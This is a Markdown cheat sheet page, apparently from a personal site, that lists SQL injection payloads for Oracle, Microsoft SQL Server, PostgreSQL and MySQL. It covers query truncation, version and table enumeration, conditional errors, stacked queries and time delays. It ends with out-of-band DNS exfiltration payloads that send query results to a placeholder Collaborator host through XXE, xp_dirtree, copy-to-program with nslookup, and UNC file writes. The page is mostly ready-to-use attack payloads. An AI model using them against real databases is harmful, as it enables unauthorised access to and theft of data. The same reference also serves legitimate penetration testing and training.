 ```yaml
---
title: "SQL Cheatsheet"
permalink: /SQL-Cheatsheet/
layout: single
author-profile: true
---
```


## Commands
### String concatenation
You can concatenate together multiple strings to make a single string.

Oracle:
``'foo'||'bar'``
Microsoft: 
``'foo'+'bar'``

PostgreSQL: 
``'foo'||'bar'``

MySQL: 
``'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')``

### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle:
``SUBSTR('foobar', 4, 2)``

Microsoft:
``SUBSTRING('foobar', 4, 2)``

PostgreSQL:
``SUBSTRING('foobar', 4, 2)``

MySQL:
``SUBSTRING('foobar', 4, 2)``

## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle:
``--comment``

Microsoft:
``--comment
  /*comment*/``

PostgreSQL
--comment
/*comment*/
MySQL
#comment
-- comment [Note the space after the double dash]
/*comment*/

Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft
SELECT @@version
PostgreSQL
SELECT version()
MySQL
SELECT @@version

Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle
Does not support batched queries.
Microsoft
QUERY-1-HERE; QUERY-2-HERE
PostgreSQL
QUERY-1-HERE; QUERY-2-HERE
MySQL
QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle
dbms_pipe.receive_message(('a'),10)
Microsoft
WAITFOR DELAY '0:0:10'
PostgreSQL
SELECT pg_sleep(10)
MySQL
SELECT sleep(10)

Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
Oracle
The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL
The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
Oracle
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL
The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

